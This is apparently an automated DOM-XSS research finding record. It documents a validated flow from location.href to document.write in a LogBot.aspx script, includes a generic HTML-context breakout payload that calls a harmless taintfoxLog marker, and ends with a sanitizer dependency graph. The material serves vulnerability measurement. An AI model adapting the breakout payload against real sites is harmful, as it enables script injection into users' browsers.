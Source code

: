 // Finding: 9f0d124e-7956-40ff-9f58-a185de470129
// Finding.url: https://adrs.example403.com/ADRefererSystem/prereg.html##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('ab9e47c104bf437ebabaca20c3c888b3')</script><!--/*
// Finding.parentloc: https://adrs.example403.com/ADRefererSystem/prereg.html##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('ab9e47c104bf437ebabaca20c3c888b3')</script><!--/*
// Finding.domain: adrs.example403.com
// Finding.base_domain: example403.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: 
// Sanitizer.location: https://adrs.example403.com/ADRefererSystem/LogBot.aspx - <anonymous>:20:240
// Finding.begin: 106
// Finding.end: 282
// Finding.original_uuid: 5a1fd564-3669-46c0-b919-393f446334a1
// Finding.TwentyFiveMillionFlowsId: 919956606
// Finding.script: https://adrs.example403.com/ADRefererSystem/LogBot.aspx
// Finding.line: 20
// Exploit.uuid: ab9e47c1-04bf-437e-baba-ca20c3c888b3
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: img
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 48
// Exploit.replace_begin_url: 48
// Exploit.replace_end_url: 48
// Exploit.replace_begin_param: 173
// Exploit.replace_end_param: 173
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1556352578
// DepGraph.sanitizer_hash: -1122442340

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /[&]/"];
n3 [shape=box, label="Lit: %26"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /\?/"];
n7 [shape=box, label="Lit: %3F"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="."];
n10 [shape=box, label="Lit: <img src='http://adrs.example403.com/ADRefererSystem/LogBot.aspx?SndaRefererUrl=(DIRECT)&SndaADID=&SndaInSiteUrl="];
n11 [shape=ellipse, label="."];
n12 [shape=box, label="Lit: ' style='display:none' onload='try{adrsload();}catch(e){}' onerror='try{adrsload();}catch(e){}' />"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n10;
n9 -> n5;
n11 -> n9;
n11 -> n12;
n13 -> n11;
n14 -> n13;
}